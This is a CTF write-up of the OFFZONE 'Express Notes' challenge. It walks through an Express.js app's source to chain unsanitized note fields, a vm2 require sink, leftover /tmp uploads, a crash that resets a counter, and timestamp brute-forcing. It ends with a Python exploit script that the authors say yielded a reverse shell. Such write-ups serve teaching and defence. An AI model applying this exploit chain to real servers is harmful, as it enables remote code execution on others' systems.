




# Express notes - "OFFZONE" express file upload challenge


The next challenge we did with [Varik Matevosyan](https://twitter.com/D4RK7ET) on [OFFZONE Moscow](https://offzone.moscow/) CTF was an express.js file upload application - [Express Notes](https://ctf.bi.zone/challenges/28).
<!--more-->


### The challenge
The description of the challenge was:
> Hi! Check my simple nodejs express app that allows you to store simple notes and file attachments. [get](http://express-notes.ctfz.one/)
> Here is [file](https://ctf.bi.zone/files/sources.zip.5de1984d4ad63ac08b643ad91c0a40fd)

As we got the source code, we could see it's an `express` server with `express-fileupload` middleware and using `redis` as the data store. And it does what the challenge description says - you can register a user then create notes and attach files to that notes.

### Reviewing the codebase

Looking through the `server.js` we couldn't find anything interesting until `/notes` *POST* endpoint that was passing user-supplied body to `db.createNote` with no sanitization or validation.

_server.js line 146-152_
```javascript
app.post('/notes', ensureAuth, async (req, res) => {
    const nid = await db.createNote(req.body);
    await db.addNoteToUser(req.session.user.id, nid);

    res.flash('success', `Note ${nid} was created!`);
    res.redirect(`/notes/${nid}`);
});
```

And `createNote` itself was just creating a redis record with that body.

_db.js line 92-97_
```javascript
async createNote(content) {
    const nid = await nanoid();
    const stamp = Date.now();
    await db.hmset(`note:${nid}`, {...content, 'hashcash': stamp});
    return nid;
}
```

Then looking through `/notes/:nid` *GET* endpoint we saw that it executed a javascript code with [vm2 sandbox](https://github.com/patriksimek/vm2) and set with `require: { external: true }` option, which, as the name suggests, enables it to require external files. Also on line 15 (below), we can see that the "sandboxed" code executed `note.file` which we most probably could supply, because, as said above in `/notes` *POST* endpoint, we can store a note object with arbitrary properties.

_server.js line 154-183_
```javascript
app.get('/notes/:nid', ensureAuth, async (req, res) => {
    const { nid } = req.params;
    if (!await db.hasUserNoteAcess(req.session.user.id, nid)) {
        return res.redirect('/notes');
    }
    db.getNote(nid).then((note) => {
      if (note.fileLoaded){
        out = {}
        const vm = new NodeVM( {
          console: 'inherit',
          sandbox: { note, out },
          require: { external: true }
        } );
        c = ` try{
                text = require(note.file)["userdata"];
                delete require.cache[require.resolve(note.file)];
                out.text = text;
              } catch (error) {
                out.text = "Can't load file ;(";
              }`
        vm.run(c);
        text = out.text;
      } else{
        text = "Thank you for using our service. File now is processing on the server. You can reload page to check if file loaded.";
      }
      res.render('note', {  nid,
                            note,
                            text });
    });
});
```

So we could control `note.file` parameter and execute any javascript file. But we needed to upload a file to a known location to pass it to the sink. And `/notes/:nid/upload` was the file upload endpoint we needed as it uploads the user-supplied file to `/app/uploads`.

_server.js line 185-209_
```javascript
app.post('/notes/:nid/upload', ensureAuth, async (req, res) => {
    const timeUploaded = (new Date()).toISOString();
    const { nid } = req.params;
    const textFile = Array.isArray(req.files?.textFile) ? req.files?.textFile?.shift() : req.files?.textFile;
    const uploadPath = __dirname + '/uploads/' + uuidv4() + '_' + textFile?.name;
    const hashcash = await db.checkHashcash(nid, req.body.hashcash);
    if (!textFile) {
      return res.status(400).send('No files were uploaded.');
    }
    if (!hashcash){
      textFile.mv("/dev/null")
      return res.status(400).send('Wrong hashcash.');
    }
    FILE_ID = FILE_ID+1;
    db.addFile(nid, uploadPath, timeUploaded, FILE_ID);
    db.genHashcash(nid);
    res.redirect(`/notes/${nid}`);
    // since node work in 1 thread, data parsing hangs all event loop. Spawning in new process
    setTimeout(()=>{
      execFile(`./dataParser`, [textFile["tempFilePath"], uploadPath], (error, stdout, stderr) => {
        textFile.mv("/dev/null");
        db.updateFileStatus(nid);
      });
    }, 0);
});
```

But on line 20 (above), it also passes our file through `./dataParser` program before moving to the `uploads` directory, which makes achieving code execution hard, escaping potentially dangerous characters and setting the payload as a string.

_before_
```javascript
${require('child_process')}
```

_after ./dataParser_
```js
var user_data = `\$\{require('child_process')\}`
module.exports = { user_data }
```

After playing a bit with the data processor we realized that we could not bypass the filtering, and we moved forward to finding other ways to supply our uploaded file. So we went through `/notes/:nid/upload` once more and saw that if we provided other form parameter name than `textFile` for the file, it would be uploaded to `/tmp` and not be removed, because the check on line 7 (see above in _server.js line 185-209_) would fail and there would be no further processing of the file.




Let's see what we wanted to do at this point.

- Upload a javascript file that would be kept in `/tmp` directory.
- Create a note with an attachment of our uploaded file with the following body `{ "fileLoaded": true, "file": "/tmp/some_path" }`
- Request `/note/:nid` *GET* endpoint and get our code executed from `/tmp/some_path`

To understand what name our uploaded file would have, we checked out [express-fileupload](https://github.com/richardgirges/express-fileupload). [lib/utilites.js](https://github.com/richardgirges/express-fileupload/blob/26f4a9235cd2434fdb0debd7934ae8a7190bbb82/lib/utilities.js#L34) on line 34 sets the uploaded file name as `${prefix}-${tempCounter}-${Date.now()}`, where the `prefix` is the temporary directory, e.g. `/tmp`, `tempCounter` is a simple counter starting from 1, and `Date.now` is the current timestamp which we could get partially without milliseconds from `Date` header on the upload request's response.

So we knew the `prefix`, we could bruteforce 1000 possible milliseconds for `Date.now`, but we also needed the `tempCounter`. `/note/:nid` page responds with the file ID when the upload was successful.



As it was a CTF challenge and lots of players were uploading files, we could not precisely tell what file ID would `/notes/:nid/upload` file have and the bruteforce range would get bigger. But reviewing the upload endpoint one more time and thus looking deeper into `checkHashcash` function we found a possible unhandled error (line 3 below).

_db.js line 108-117_
```javascript
async checkHashcash(nid, hashcash){
    const note = await db.hgetall(`note:${nid}`)
    const resource = hashcash.split(":")[3];
    const sha1 = crypto.createHash('sha1').update(hashcash).digest('hex');
    if (sha1.startsWith('000000') && resource === note.hashcash){
        return true;
    } else{
        return false;
    }
}
```

If we would not send `hashcash` it would be undefined and would throw an unhandled error.



This would effectively reset the counter, setting it to 1.

### Exploit

Awesome! So here's the full exploit chain.

- Create a note and get the note ID,
- Crash the server,
- Upload our script with `/notes/:nid/upload` to `/tmp/tmp-1-$Date.now()` path,
- Get the `Date` header from the upload response and convert it to milliseconds: in our case, it was `1661424636000`,
- Run the script below and get a reverse shell

_exploit.py_
```python
import requests
import threading

HOST = 'express-notes.ctfz.one'
cookies = {
    'lang': 'en-US',
    'connect.sid': '<session-cookie>'
}


headers = {
    'Host': HOST,
    'Content-Type': 'application/x-www-form-urlencoded'
}

def run_in_thread(fn):
    def run(*k, **kw):
        t = threading.Thread(target=fn, args=k, kwargs=kw)
        t.start()
        return t
    return run


@run_in_thread
def run_brute(timestamps):
    for timestamp in timestamps:
        brute(timestamp)

def brute(timestamp):
    data = 'title=test&content=test&fileLoaded=true&file=/tmp/tmp-1-%s' % (timestamp)
    response = requests.post('https://%s/notes' % HOST, cookies=cookies, headers=headers, data=data, allow_redirects=True)
    print(data, response.elapsed.total_seconds())

response_time = 1661424636000
NUM_THREADS = 5

LIMIT = 1000 / NUM_THREADS
for n in range(NUM_THREADS):
    start = response_time + LIMIT * n
    end = start + LIMIT
    run_brute(range(start, end))
```

Running the script above, we got a reverse shell connection to our server and got the flag 


